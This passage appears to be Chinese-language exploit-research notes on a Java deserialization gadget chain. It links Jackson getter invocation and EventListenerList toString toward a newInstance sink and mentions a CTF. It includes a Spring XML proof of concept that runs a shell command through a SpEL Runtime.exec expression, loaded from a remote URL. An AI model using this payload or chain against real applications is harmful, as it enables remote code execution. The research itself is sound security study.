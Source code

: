 看最后的那几步。

套一层Bean和没有多套那一层Bean多了最后那重复的三步。其实就是多了一个递归调用。

首先在这个地方找到value对应的Serializer，然后进行serialize。

SerializerProvider.defaultSerializeValue()

![image-20241213215330708](https://cocr-obsidian.oss-cn-beijing.aliyuncs.com/_typora_image/image-20241213215330708.png)

然后是获取对应的File。

BeanSerializer.serialize()

![image-20241213215621613](https://cocr-obsidian.oss-cn-beijing.aliyuncs.com/_typora_image/image-20241213215621613.png)

然后通过反射调用对应的get方法。然后get到对应的value。此时的value就已经是PooledDSFactory了。然后再进行一次这样的步骤，调用PooledDSFactory的任意get方法。

BeanPropertyWriter.serializeAsField()

![image-20241213215902133](https://cocr-obsidian.oss-cn-beijing.aliyuncs.com/_typora_image/image-20241213215902133.png)

# server

## sink
poc.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<beans xmlns="http://www.springframework.org/schema/beans"  
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">  
    <bean id="evil" class="java.lang.String">  
            <constructor-arg value="#{T(Runtime).getRuntime().exec('open -a Calculator')}"/>  
    </bean></beans>
```
```
new ClassPathXmlApplicationContext("http://127.0.0.1:7777/poc.xml");
```
这样我们就可以达到命令执行的效果。然后我们就是如何来实例化这个类。

## 中间链思路

其实可以利用   EventListenerList ReadObject -> toString 这个gadget。

https://xz.aliyun.com/t/15487  今年羊城杯的时候遇到过。

然后再利用jackson  toString -> 任意get的这个gadget
然后寻找  任意get ->  newInstance 这个 gadget 。这个链子我们用codeql寻找。

然后我们以任意的get方法作为source，以 newInstance 方法作为sink点。进行查找。

## codeql
